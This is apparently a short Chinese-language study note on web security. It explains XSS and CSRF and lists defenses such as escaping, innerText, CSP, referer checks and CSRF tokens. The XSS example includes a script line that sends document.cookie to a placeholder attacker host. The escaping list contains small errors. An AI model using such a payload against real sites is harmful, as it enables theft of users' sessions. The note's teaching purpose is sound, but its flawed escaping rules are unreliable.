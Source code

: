 # 安全相关

## XSS 攻击

举例

```javascript
div.innerHTML = (
  <script>$.get('http://hacker.com?cookie='+document.cookie)</script>
);
// 恶意代码就被执行了，这就是 XSS
```

<!--more-->

预防
不要使用 innerHTML，改成 innerText，script 就会被当成文本，不执行
如果你一样要用 innerHTML，字符过滤
把 < 替换成 `&lt`;
把 > 替换成 `&gt`;
把 & 替换成 `&amp`;
把 ' 替换成 `&#39`;
把 ' 替换成 `&quot`;
代码 div.innerHTML = userComment.replace(/>/g, '`&lt;`').replace...
使用 CSP Content Security Policy

## CSRF 攻击

利用用户的登录态发起恶意请求
过程
用户在 qq.com 登录
用户切换到 hacker.com（恶意网站）
hacker.com 发送一个 qq.com/add_friend 请求，让当前用户添加 hacker 为好友。
用户在不知不觉中添加 hacker 为好友。
用户没有想发这个请求，但是 hacker 伪造了用户发请求的假象。
避免
检查 referer，qq.com 可以拒绝来自 hacker.com 的请求
使用 csrf_token 来解决
